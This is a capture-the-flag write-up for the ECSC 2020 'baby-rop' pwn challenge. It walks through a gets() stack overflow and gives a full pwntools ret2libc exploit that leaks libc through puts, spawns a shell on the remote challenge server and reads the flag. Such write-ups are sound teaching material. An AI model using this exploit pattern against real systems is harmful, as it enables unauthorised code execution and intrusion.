

# baby-rop

## Description

This is a simple pwn challenge. You should get it in the lunch break.

Running on Ubuntu 20.04.

*About the challenge*

The challenge was initially published at European Cyber Security Challenge 2020 - the national phase organised in Romania. The challenge was created by Bit Sentinel.

European Cyber Security Challenge (ECSC) is the annual European event that brings together young talent from across Europe to have fun and compete in cybersecurity!

Author: Andrei Avadanei 

## Analysis

We're given one executable, and a remote system to exploit to get the flag.

```
$ file pwn_baby_rop
pwn_baby_rop: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=7065eaf6025143d7286e6b73427a82ed0d780904, for GNU/Linux 3.2.0, stripped
```

No canary, no pie:

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### Decompile with Ghidra

Starting from `entry`:


There are really only two functions that matter. `FUN_0040145c`, which prints the prompt:

```c
undefined8 FUN_0040145c(void)

{
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  puts("Solve this challenge to prove your understanding to black magic.");
  FUN_00401176();
  return 0;
}
```

And `FUN_00401176`, which uses `gets` and is vulnerable to a buffer overflow.

```c
void FUN_00401176(void)

{
  undefined8 local_108;
  undefined8 local_100;
  undefined8 local_f8;
  undefined8 local_f0;
  undefined8 local_e8;
  undefined8 local_e0;
  undefined8 local_d8;
  undefined8 local_d0;
  undefined8 local_c8;
  undefined8 local_c0;
  undefined8 local_b8;
  undefined8 local_b0;
  undefined8 local_a8;
  undefined8 local_a0;
  undefined8 local_98;
  undefined8 local_90;
  undefined8 local_88;
  undefined8 local_80;
  undefined8 local_78;
  undefined8 local_70;
  undefined8 local_68;
  undefined8 local_60;
  undefined8 local_58;
  undefined8 local_50;
  undefined8 local_48;
  undefined8 local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  undefined8 local_18;
  undefined8 local_10;
  
  local_108 = 0;
  local_100 = 0;
  local_f8 = 0;
  local_f0 = 0;
  local_e8 = 0;
  local_e0 = 0;
  local_d8 = 0;
  local_d0 = 0;
  local_c8 = 0;
  local_c0 = 0;
  local_b8 = 0;
  local_b0 = 0;
  local_a8 = 0;
  local_a0 = 0;
  local_98 = 0;
  local_90 = 0;
  local_88 = 0;
  local_80 = 0;
  local_78 = 0;
  local_70 = 0;
  local_68 = 0;
  local_60 = 0;
  local_58 = 0;
  local_50 = 0;
  local_48 = 0;
  local_40 = 0;
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  local_18 = 0;
  local_10 = 0;
  gets((char *)&local_108);
  _DAT_00404060 = local_108;
  _DAT_00404068 = local_100;
  _DAT_00404070 = local_f8;
  _DAT_00404078 = local_f0;
  _DAT_00404080 = local_e8;
  _DAT_00404088 = local_e0;
  _DAT_00404090 = local_d8;
  _DAT_00404098 = local_d0;
  _DAT_004040a0 = local_c8;
  _DAT_004040a8 = local_c0;
  _DAT_004040b0 = local_b8;
  _DAT_004040b8 = local_b0;
  _DAT_004040c0 = local_a8;
  _DAT_004040c8 = local_a0;
  _DAT_004040d0 = local_98;
  _DAT_004040d8 = local_90;
  _DAT_004040e0 = local_88;
  _DAT_004040e8 = local_80;
  _DAT_004040f0 = local_78;
  _DAT_004040f8 = local_70;
  _DAT_00404100 = local_68;
  _DAT_00404108 = local_60;
  _DAT_00404110 = local_58;
  _DAT_00404118 = local_50;
  _DAT_00404120 = local_48;
  _DAT_00404128 = local_40;
  _DAT_00404130 = local_38;
  _DAT_00404138 = local_30;
  _DAT_00404140 = local_28;
  _DAT_00404148 = local_20;
  _DAT_00404150 = local_18;
  _DAT_00404158 = local_10;
  return;
}
```

`gets` writes to `local_108`, which is 0x108 bytes from the return address.


So we just have to write 0x108 bytes, followed by the address we want to return to.


### Start with a crash

The first thing to do is overwrite the address and see what happens. If you run this from `screen` or `tmux`, the `gdb.attach` line will automatically create a new window with gdb attached to the process it spawns.


We have control of the return address, now what?


### Newbie References

[datajerk](https://github.com/datajerk) has a _very_ relevant write-up for [roprop](https://github.com/datajerk/ctf-write-ups/blob/master/darkctf2020/roprop/README.md) from DarkCTF 2020.

Other useful references for newbies include 
[Return to libc](https://blog.benroxbeecox.me/Binary-Exploitation/return-to-libc/) and 
[Leaking LIBC address](https://book.hacktricks.xyz/exploiting/linux-exploiting-basic-esp/rop-leaking-libc-address).


### Leak libc

We need to leak the libc base address in order to call `system`. There are a handful of libc functions that this binary was linked to, one of which is `puts`. We can use `puts` to output the GOT (global offset table) address of `puts`. Then subtract the PLT (procedural linking table) address to get the libc base address.

This payload outputs the GOT address then jumps back to the prompt function `FUN_0040145c` for another round of input. Then we calculate the base address of libc so we can call `system`.

```python3
payload  = 0x108 * b'A'
payload += p64(pop_rdi)
payload += p64(binary.got.puts)
payload += p64(binary.plt.puts)
payload += p64(prompt_func)
```


### Pop a shell locally

With the libc address in hand, we can send the second payload to pop a shell.

```python3
payload  = 0x108 * b'A'
payload += p64(pop_rdi)
payload += p64(libc.search(b"/bin/sh").__next__())
payload += p64(libc.symbols['system'])
```




### Getting a remote shell

Now to get a shell on the remote server to get the flag.

1) Use `p = remote('34.159.3.158', 30098)` for a remote connection instead of `p = process(binary.path)` for a local process.

2) Download the version of libc used by the remote server. You can look it up on [libc-database](https://libc.rip/) using the leaked address of `puts`, but in this case, they told us in the description that it was running on Ubuntu 20.04, so...
```
docker run -v $PWD:/pwd -it ubuntu:20.04 cp /lib/x86_64-linux-gnu/libc-2.31.so /pwd/
```

3) It still wasn't working remotely due to a stack alignment issue that I didn't run into locally. See [Datajerk's writeup](https://github.com/datajerk/ctf-write-ups/blob/master/darkctf2020/roprop/README.md#get-a-shell-get-the-flag) and [this reference](https://blog.binpang.me/2019/07/12/stack-alignment/). Adding `p64(pop_rdi + 1)` to the payload was the last change needed to get a remote shell.


## Solution

```python3
#!/usr/bin/python3
from pwn import *

#context.log_level='DEBUG'
binary = ELF('./pwn_baby_rop')
context.update(arch='amd64',os='linux')

rop = ROP([binary])
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]

if args.REMOTE:
    p = remote('34.159.3.158', 30098)
else:
    libc = binary.libc
    p = process(binary.path)
    #gdb.attach(p, '''
    #break _start
    #continue  
    #''')

prompt = 'Solve this challenge to prove your understanding to black magic.\n'
prompt_func = 0x0040145c

payload  = 0x108 * b'A'
payload += p64(pop_rdi)
payload += p64(binary.got.puts)
payload += p64(binary.plt.puts)
payload += p64(prompt_func)

p.sendlineafter(prompt, payload)

_ = p.recv(6)
puts = u64(_ + b'\0\0')
print('puts:   ' + hex(puts))

if args.REMOTE:
    # Could use https://libc.rip/ but the description tells us what OS is used.
    # docker run -v $PWD:/pwd -it ubuntu:20.04 cp /lib/x86_64-linux-gnu/libc-2.31.so /pwd/
    libc = ELF('libc-2.31.so')

libc.address = puts - libc.sym.puts
print('libc:   ' + hex(libc.address))
print('system: ' + hex(libc.symbols['system']))

payload  = 0x108 * b'A'
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(libc.search(b"/bin/sh").__next__())
payload += p64(libc.symbols['system'])

p.sendlineafter(prompt, payload)
p.interactive() 
```

```
$ python3 pwn_solve.py REMOTE=1
[*] '/home/vagrant/Downloads/pwn_baby_rop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for './pwn_baby_rop'
[+] Opening connection to 34.141.93.151 on port 32751: Done
/home/vagrant/.local/lib/python3.9/site-packages/pwnlib/tubes/tube.py:822: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  res = self.recvuntil(delim, timeout=timeout)
puts:   0x7f3ee58555a0
[*] '/home/vagrant/Downloads/libc-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
libc:   0x7f3ee57ce000
system: 0x7f3ee5823410
[*] Switching to interactive mode
$ ls -l
total 20
-rwxr-xr-x 1 root root    70 May 13  2020 flag
-rwxr-xr-x 1 root root 14520 May 13  2020 pwn
$ cat flag
ECSC{c6e202f0d761b296c2fe9dbebc5169a892833cffa65399fee585b532eca3fcac}
```

